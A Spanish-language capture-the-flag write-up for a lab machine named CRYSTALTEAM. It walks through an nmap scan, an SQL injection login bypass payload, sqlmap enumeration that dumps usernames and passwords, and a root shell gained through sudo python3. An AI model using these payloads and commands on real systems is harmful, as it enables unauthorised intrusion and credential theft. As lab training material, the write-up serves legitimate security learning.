






🔹Máquina: CRYSTALTEAM
📅 Publicado el | Categoría: WEB / SQLi
📝 Descripción
Este reto consiste en comprometer una máquina Linux a través de una aplicación web vulnerable
a inyección SQL en su formulario de login. El objetivo es escalar desde el acceso web hasta
una shell como root.
🔍 Análisis inicial
Escaneo de puertos completo:
sudo nmap -p- -open -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2

En el reconocimiento web se encontró la ruta /Certificacion, que exponía un
formulario de login.
💣 Explotación
1) Bypass de login por SQLi
Se probó una inyección clásica de bypass de autenticación en el campo de usuario:
admin' OR '1'='1'-- -
El login se saltó sin necesidad de contraseña válida, confirmando la inyección SQL.
Se capturó la petición y se guardó en request.txt para automatizar la
explotación con sqlmap.

2) Enumeración con sqlmap
Listado de bases de datos disponibles:
sqlmap -r request.txt --batch --dbs

Listado de tablas dentro de la base inicio:
sqlmap -r request.txt -D inicio --tables

Columnas de la tabla personales:
sqlmap -r request.txt -D inicio -T personales --columns

Extracción de credenciales:
sqlmap -r request.txt \
-D inicio \
-T personales \
-C usuario,contrasena,token \
--dump

Resultado del dump:
usuario | contrasena
alejandro | hanka
pinmar | PI7Tmy
De las dos credenciales obtenidas, solo alejandro permitió autenticación por SSH.
3) Escalada de privilegios
Ya autenticado como alejandro vía SSH, se revisaron los permisos de sudo:
alejandro@119e0dd98d2b:~$ sudo -l
Matching Defaults entries for alejandro on 119e0dd98d2b:
env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin, use_pty
User alejandro may run the following commands on 119e0dd98d2b:
(ALL) NOPASSWD: /usr/bin/python3
python3 sin restricciones permite ejecutar código arbitrario y obtener una
shell (técnica documentada en GTFOBins):
alejandro@119e0dd98d2b:~$ sudo /usr/bin/python3 -c 'import pty; pty.spawn("/bin/bash")'
root@119e0dd98d2b:/home/alejandro# id
uid=0(root) gid=0(root) groups=0(root)
🏆 Resultado
Se obtuvo acceso como root, confirmado con id.